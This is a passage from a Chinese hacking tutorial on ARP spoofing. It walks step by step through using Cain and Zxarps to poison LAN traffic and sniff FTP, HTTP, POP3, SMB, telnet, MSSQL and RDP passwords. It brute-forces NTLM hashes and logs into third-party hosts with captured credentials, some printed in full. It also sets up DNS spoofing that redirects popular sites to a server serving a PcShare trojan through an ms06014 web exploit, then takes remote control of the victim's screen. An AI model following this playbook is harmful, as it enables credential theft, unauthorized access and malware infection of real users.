一般来说，ARP 欺骗攻击的后果非常严重，大多数情况下会造成网络大面积掉线。有些网管员对此不甚了解，出现故障时，只要 PC 没有问题，便认为是交换机没掉线，或者认为是电信宽带故障。而且如果第一种 ARP 欺骗发生时，只要重启路由器，网络就能全面恢复，那问题一定是在路由器了。为此，宽带路由器背了不少“黑锅”。

## 2.3 ARP 嗅探欺骗工具触类旁通

俗话说：“工欲善其事，必先利其器”，因此一款好的黑客工具，可以使你在入侵的时候少走些弯路，下面笔者将给大家介绍一款鼎鼎大名的 ARP 欺骗工具——Cain。

### 2.3.1 LAN 嗅探欺骗之神——Cain

Cain Abel 是 Windows 系统强大的 ARP 欺骗和破解密码工具，由 Massimiliano Montoro 开发，拥有十余种可用来破解密码的功能。除了这些之外，Cain 还拥有无线网络侦查功能、Hash 计算器以及 ARP poisoning 工具，专门用来窃听 switching 环境。

在运行 Cain4.9 之前，我们要先安装一下 WinPcap 驱动，一般嗅探软件都需要安装这个驱动，如图 14，一路单击"Next"按钮直到安装完毕。

安装完 WinPcap 驱动后，我们就可以打开最新版"cain4.9.24"，先来熟悉一下界面。程序是英文版的，如图 15。至于为什么不用汉化版，那是因为汉化版常常抓不到东西，远没有英文原版来的稳定。

#### 2.3.1.1 利用 Cain 进行 ARP 欺骗与嗅探

在开始嗅探之前，我们要设置一下 Cain 的嗅探网卡。在主界面上面的菜单栏点击"configure"，在弹出的设置框中选择"sniffer"标签页，然后选中本机当前工作中的网卡，如图 16。

此时单击"OK"按钮保存配置，然后再点击"start/stop sniffer"功能按钮，也就是主界面上功能按钮栏中的第二个网卡图标。然后再点击旁边的"sniffer"按钮，接着点击"add to list"按钮（就是那个大加号），在弹出的设置框中选择"All hosts in my subnet"，其它默认，如图 17，最后按“确定”按钮。

此时，程序就会开始自动扫描这个段里的所有主机，速度非常快，几秒种就能完成，扫描结果如图 18。

接下来我们开始 ARP 欺骗和嗅探数据，目标 IP：192.168.3.102。确认目标后，设置一下 Cain，点击最下面的"ARP"标签页，来到如图 19 的界面。

接着选中左框中的"ARP"，在右上框单击一下，然后再点那个大加号，弹出如图 20 的设置框，我们来添加一个 ARP 列表。

在左边的列表框中选择你要欺骗的 IP 地址：192.168.3.102，然后在右边的列表框中选中网关地址 192.168.3.1，如图 21。

最后单击"OK"，再点击"start/stop ARP"按钮，如图 22。

此时，我们的 Cain 就开始 ARP 欺骗嗅探 192.168.3.102 经过 192.168.3.1 的所有密码数据了。其实当我们开始 ARP 嗅探后，它的数据就从我的本机 192.168.3.100 进行转发，只要客户机在进行网络访问，我们就有可能抓到密码。

经过一段时间的嗅探，我们来看看"passwords"（口令）选项里抓到的"ftp"密码信息，如图 23。

我们使用列表里最后一个 FTP 的用户名和密码来登录。打开 FTP 工具"FlashFXP"，点击“快速连接”，输入服务器地址：60.190.145.177，用户名：txxz，密码：share，如图 24。

点击“连接”，登录成功，如图 25。

再来看看"http"里抓到了哪些密码，如图 26。接下来我们也测试一下抓到的 HTTP 用户名和密码是否可用。

随便找一个地址，比如：http://www.west263.com，用 IE 访问看看是不是可以成功登录，如图 27。

我们再看看抓到的"POP3"邮件密码，如图 28，虽然不多，但可以通过 2.1.2 节里的 IP 转成域名的方法，这里用 IE 访问 POP3 的 web 登录域名：mail.51softjob.com，然后输入用户名：admin，密码：j******，登录成功后如图 29。

接着回到 Cain 主界面再看看 SMB 密码（注：SMB 就是访问共享输入的用户名和密码，即共享用户密码），一共抓到 14 条信息，如图 30。

从图 30 中我们可以看到，只有最后一条信息是登录成功的，其他的都失败了，所以我们把最后一条成功的信息发送到破解器里去进行破解。选中最后一条信息，按鼠标右键选择"send to cracker"，如图 31。

然后在 Cain 主界面点击"Cracker"（破解）标签页，可以看到如图 32 的信息。接下来我们就要破解这个 SMB 的 hash。按鼠标右键，选择"Brute-force attack"-"NTLM Session Security hashes"，如图 33，这是一种穷举破解方式，大家也可以选字典破解方式。

在弹出的"Brute-Force Attack"设置框中，我们先选择以 0-9 这十个数字组合来进行破解，不行的话，再换其他组合，也可以用自定义字符来破解。

选择"Predefined"，并从下拉菜单中选择"0123456789"，接着在"Password length"里设定密码的长度，比如 5-8 位，如图 34。所有设置完毕后点击"start"，破解开始。由于密码比较简单，10 秒时间就破解出来了，结果如图 35。这时我们打开 IE，在地址栏输入\192.168.3.102\c$，在弹出的对话框中输入用户名：administrator，密码：5201314，如图 36。成功登录后的结果如图 37。

接下来再回到 Cain 主界面看看"telnet"中嗅探到了哪些信息，如图 38。

只有两条结果，我们选中一条信息，按鼠标右键选择"view"，如图 39。

现在我们查看一下嗅探的信息文件，如图 40，只有密码，没有用户名，这是个什么设备？先不要管了，telnet 进去就知道了。打开 CMD 输入 telnet 61.155.105.15，如图 41。

原来是 cisco2950 的路由器，怪不得只有密码呢。接着我们再回到 Cain 主界面，看看 TDS（TDS 里面记录的是 mssql 密码信息）的结果，如图 42。

可以看到，已经抓到明文用户名和密码了，所以我就不需要去破解了，直接用 mssql 综合利用工具连接。打开"mssql 综合利用工具"，输入 IP 地址：211.155.24.3，用户名：net818168_f，密码：p******，如图 43。

单击“确定”按钮，连接成功！点击“利用目录”，并选“执行 DOS 命令”，输入个简单的命令：dir c:\，发现没有权限，如图 44。

通过这个小节的介绍，可以体会到 Cain 在局域网渗透中的强大功能！

#### 2.3.1.2 利用 Cain 欺骗嗅探远程 3389 登录密码

通过 Cain 嗅探远程的 3389 密码，在实际过程中并不是百分之百可以成功的，而是要满足一个条件：就是被嗅探的目标主机利用远程桌面工具去连接远程 3389 主机，必须是以保存密码的形式去连接，如图 45，否则我们将无法抓到登录的密码。这也是常常有人失败的原因。

为了更加准确地嗅探到 3389 的密码，我们要简单修改一下 Cain 的设置。在 Cain 主界面上点击菜单栏上的"configure"，然后选择"filters and ports"标签页，即端口过滤。接着只在"RDP 3389"前打"√"，其他都不选，如图 46，最后点击"OK"。

## 第二章 网络嗅探与 ARP 欺骗

接下去的操作和嗅探时的一样，点击最下面的"ARP"，再选中左框中的 ARP，在右上框单击一下，然后再点那个大加号来添加一个 ARP 列表。左边选欺骗的 IP：192.168.3.102，右边选网关：192.168.3.1，如图 47。

最后单击"OK"按钮，同时点击一下"start/stop ARP"按钮开始 ARP 欺骗，等待数据进来。等待一会儿，就有数据被嗅探到了，如图 48。

选中一个结果项，按鼠标右键选择"view"，弹出一个嗅探后的文本文件，这里面保存着用户名和密码信息，我们慢慢地往下找，你就会发现用户名和密码以及其他的相关信息，如图 49。

打开本机"远程桌面工具"，输入 IP 地址：60.190.157.178 进行连接，再输入用户名：administrator，密码：j******，确定后即可登录成功，如图 50。

### 2.3.1.3 利用 cain 进行局域网 DNS 欺骗挂马（即域名欺骗）

> 所谓局域网 DNS 欺骗，相信大家都不会太陌生，简单地说，就是在局域网中事先把 cain 设置好，将别人访问的域名指定到欺骗的 IP 地址上，当被欺骗主机访问这个域名时，就会自动转向到我们指定的 IP。

下面我们来具体的操作一下。打开 cain，单击"sniffer"标签页，再点击下面的"ARP"标签页，选中"ARP-DNS"，在右边的框中按鼠标右键，选择"add to list"，准备添加一个 DNS 欺骗列表，如图 51。









在弹出的"DNS spoofers for ARP"对话框中，在"DNS name requested"下输入你要欺骗的域名，比如 www.163.com，然后将指定访问的 IP 地址，如 192.168.3.100 添加到下面的输入框，如图 52。



你也可以多添加一些常用的域名，比如 www.baidu.com、www.qq.com、www.126.com 等等。然后将指定访问的 IP 主机架设成一台 WEB 服务器，挂上木马或病毒，等着被欺骗的主机来访问就可以了。



下面说说如何快速架设一台 WEB 服务器，我选择的是"迷你 ASP 服务器"软件。打开该软件，点击"setting"设置 WEB 访问路径和端口，如图 53。设置完毕点击"start"按钮即可。

现在我们来生成一个木马，打开"pcshare"，点击"创建客户"，IP 地址：192.168.3.100，端口：8088



(这些设置大家根据自己情况而定)，如图 54。

生成木马后，保存为 123.exe，然后将这个文件放在 WEB 服务器设置好的 WEB 目录下，接着再来生成一个网马。

打开"ms06014 网马生成器"，输入 http://192.168.3.100/123.exe，如图 55。

最后点"生成"，一个 ms06014.html 网马就完成了。将网马的文件名字改成 index.html 并拷贝到 WEB 目录下，这样准备工作就做好了。

回到 cain 主界面，单击"start/stop ARP"，DNS 欺骗就开始了。现在我们打 pcshare 木马客户端，等待马儿上线。过了一小会，马儿终于上线了，如图 56。



来看一下对方屏幕，点击"屏幕控制"，效果如图 57。



### 2.3.2 CMD 下的交换/路由欺骗王——Zxarps

Zxarps 是一个基于 ARP 欺骗原理并处于交换机或路由器模式下工作的小工具。但与此同时，还增加了修改 UDP 报文（DNS 欺骗）、限制对方带宽、可网页插马、自定义关键字等等一些功能。在嗅探方面丝毫不比 cain 逊色，不同的是它需要在 CMD 下运行。

打开 CMD 输入 zxarps，如图 58，运行前别忘了安装 WinPcap。从图 58 中我们可以得知，索引号为 0 的是本地网卡，索引号为 1 的是我拨号的 IP，这个不用去管它，只要知道本地网卡的索引号就可以了，在后面的命令运行中都要用到这个网卡的索引号。在"options"的下方，是其具体参数及解释，大家可以好好研究一下。



#### 2.3.2.1 HTTP 和 FTP 协议嗅探

在 CMD 中输入命令：zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 80 -save_h sniff.log，意思是指同时对 192.168.3.1-192.168.3.102 这个段里的所有主机进行扫描，并将存活的主机列举出来，然后进行 ARP 欺骗，并嗅探他们所访问外网的 80 端口里经过的所有数据，最后保存在本地 sniff.log 这个文件中，如图 59。从图 59 中可以看到，这个 IP 段里共有 2 台存活的主机，除一台 192.168.3.1 是路由器外，就剩下一台 192.168.3.102 是客户机了。如果这条命令在那些大型的局域网中运行，效果应该会特别的好。



执行这个命令后就开始抓取数据包，中途可以按 Ctrl+C 来停止，如图 60，所抓的包都会写入到 sniff.log 文件里面。

打开 sniff.log 文件即可看到嗅探到的数据，如图 61。

